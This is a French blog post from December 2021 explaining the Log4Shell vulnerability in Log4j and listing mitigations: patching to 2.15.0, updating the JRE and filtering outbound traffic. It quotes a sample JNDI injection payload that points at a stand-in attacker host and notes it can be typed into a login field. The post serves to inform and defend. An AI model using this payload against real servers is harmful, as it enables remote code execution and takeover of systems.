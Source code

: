 ```yaml
---
layout: post
title:  "Découverte d'une vulnérabilité critique dans log4j"
date:   2021-12-11 18:23:35 +0100
image:  '/images/blog/log4shell-explications/header.png'
tags:   [Cybersécurité]
---
```


Depuis hier, une **vulnérabilité 0-day** sur la plupart des serveurs Java est exploitée dans le monde entier via une faille dans Log4j. Twitter, Apple, Minecraft et même les voitures Tesla sont vulnérables.

Mini-article pour vous expliquer la faille la plus importante de 2021. 

<div class="gallery-box">
  <div class="gallery">
  <img style="height:350px; object-fit:cover" src="/images/blog/log4shell-explications/1469719525671194626-FGVVMggWYAY81Mw.jpg" draggable="false">
  </div>
</div>

Vous vous souvenez de ShellShock ? Là c'est **100 fois pire**.

Baptisée Log4Shell, cette attaque permet d'obtenir un shell sur la machine de la victime en lui faisant simplement afficher une payload d'une vingtaine de caractères dans ses logs: `${jndi:ldap://attacker.com/a}`

Le vecteur d'injection est généralement très simple, il suffit de l'inclure dans un paramètre qui sera affiché dans les logs, par exemple à la place de l'adresse email dans la page de connexion.

On peut voir ici la vulnérabilité déclenchée sur la page de login Twitter : 

<div class="gallery-box">
  <div class="gallery">
  <img style="height:350px; object-fit:cover" src="/images/blog/log4shell-explications/1469719531820093450-FGVw9U5XwAMTaaN.png" draggable="false">
  </div>
</div>

Au moment de gérer cette requête, le moteur Log4j interprète le ${...} comme un template, et essaie de **récupérer un fichier Java** à l'URL indiquée.

Ce fichier Java est ensuite exécuté et permet donc à l'attaquant de prendre complètement le contrôle du serveur.

Si vous utilisez Log4j en production (spoiler alert : c'est probablement le cas même si votre stack n'utilise pas Java), vous avez de grandes chances d'être vulnérables à cette vulnérabilité dont la sévérité CVSS est de 10.0, soit le maximum possible ! 

<div class="gallery-box">
  <div class="gallery">
  <img style="height:350px; object-fit:cover" src="/images/blog/log4shell-explications/1469719537922846732-FGV2PgyWYAIM3Ey.png" draggable="false">
  </div>
</div>

La faille est activement exploitée dans la nature de manière massivement automatisée (notamment pour installer des ransomwares sur les serveurs), et il est nécessaire de prendre des mesures immédiates.

Heureusement, il est facile de se protéger, je vous fais une petite liste. 

<div class="gallery-box">
  <div class="gallery">
  <img style="height:350px; object-fit:cover" src="/images/blog/log4shell-explications/1469719540095406083-FGV4bzoXwAkcFDl.jpg" draggable="false">
  </div>
</div>

- Installez le patch de sécurité 2.15.0 si vous utilisez Log4j dans votre code
- Utilisez les versions de JRE supérieures à 6u211, 7u201, 8u191, et 11.0.1 (qui désactivent la politique par défaut à l'origine du bug)
- Filtrez et surveillez les flux sortants de vos serveurs

Pour la prochaine fois, si vous voulez découvrir les vulnérabilités en direct histoire de pouvoir les corriger rapidement (et pas le lendemain via un de mes threads lol), je vous invite à suivre <a href="https://twitter.com/ANSSI_FR" target="_blank">@ANSSI_FR</a> et <a href="https://twitter.com/CERT_FR" target="_blank">@CERT_FR</a>.

Précision : utiliser une JRE à jour ne suffit pas pour être protégé, seulement contre la payload la plus courante. Merci <a href="https://twitter.com/gouttegd" target="_blank">@gouttegd</a> pour l'info ! 

<div class="gallery-box">
  <div class="gallery">
  <img style="height:350px; object-fit:cover" src="/images/blog/log4shell-explications/1469732334324879364-FGWJxDfX0AYlK3x.jpg" draggable="false">
  </div>
</div>

